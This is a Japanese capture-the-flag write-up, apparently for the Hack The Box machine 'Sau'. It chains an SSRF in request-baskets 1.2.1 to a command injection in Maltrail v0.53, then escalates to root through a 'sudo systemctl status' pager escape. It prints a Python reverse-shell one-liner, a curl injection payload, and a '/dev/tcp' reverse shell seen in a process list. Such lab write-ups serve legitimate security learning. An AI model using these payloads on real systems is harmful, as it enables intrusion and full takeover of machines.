





#### nmap

port555555にブラウザでアクセスする


新しいバスケットを作成

「Open Backet」で送信する

いくつかのオプションを設定できる
この機能を使えば、このバスケットに送られたリクエストを、ここに貼り付けた任意のURLにリダイレクトすることができる。
「任意の」URL を貼り付けてもよいでしょうか? ネットワーク内でも???


>"forward_url"：クライアントのリクエストをどこに転送するかをサーバに伝えます。
>"proxy_response" : クライアントがリクエストから返ってきた情報を知りたい場合にサーバーに指示する。
 >"insecure_tls" : サーバにSSL証明書のCAを検証させたくない場合。

ページの下に[[request-baskets Version1.21]]が表示されている

検索っしてみるとSSRFの脆弱性があることが分かる
###### 参照
https://notes.sjtu.edu.cn/s/MUUhEymt7#
https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

「Configuration Settings」のURLに「http://127.0.0.1:80/login」全部のチェックボックスにチェックを入れて「Apply」を押す

URLに先ほど作成したBasketsのアドレスを入れる



proxy_responseをtrueに設定した理由を説明します。リクエストバスケットのドキュメントを読んだ後、それが何であるか、それがどのように機能するかについての一般的な概念を得ました。転送URLを設定すると、バスケットにリクエストがキャッチされ、設定したURLに転送されます。プロキシ応答をtrueに設定すると、バスケットURLをリクエストすると、リクエストがForward URLに転送されるだけでなく、ブラウザで応答が表示されます。

ページの下に[[Maltrail v0.53]]が表示されている。
これにはOS command injectionの脆弱性がある


```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' | base64
```

```BASH
curl 'http://10.10.11.224:55555/babesket' -d 'username=;`echo "base64でエンコードした物を入れる" | base64 -d | bash`'
```

または
```bash
git clone https://github.com/massco99/htb_sau.git
```

リスナーを起動しておけばシェルがとれる



#### 権限昇格

```BASH
puma$ sudo -S -l
... snip ...
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

```BASH
puma$ sudo /usr/bin/systemctl status trail.service
> WARNING: terminal is not fully functional
> -  (press RETURN)
> ● trail.service - Maltrail. Server of malicious traffic detection system
>      Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
>      Active: active (running) since Thu 2023-07-27 20:59:09 UTC; 38min ago
>        Docs: https://github.com/stamparm/maltrail#readme
>              https://github.com/stamparm/maltrail/wiki
>    Main PID: 894 (python3)
>       Tasks: 27 (limit: 4662)
>      Memory: 46.1M
>      CGroup: /system.slice/trail.service
>              ├─ 894 /usr/bin/python3 server.py
>              ├─ 949 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 950 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 952 bash
>              ├─ 953 /bin/bash -c bash -i >& /dev/tcp/10.10.16.101/9999 0>&1
>              ├─ 954 bash -i
>              ├─ 985 sh
>              ├─1001 /bin/bash
>              ├─1003 /bin/sh
>              ├─1022 script /dev/null /bin/bash
>              ├─1023 bash -i
>              ├─1030 sudo /usr/bin/systemctl status trail.service
>              ├─1031 /usr/bin/systemctl status trail.service
>              ├─1032 pager
> lines 1-23~
```

```BASH
> lines 1-23~!sh
>> root# id
>>> uid=0(root) gid=0(root) groups=0(root)
```


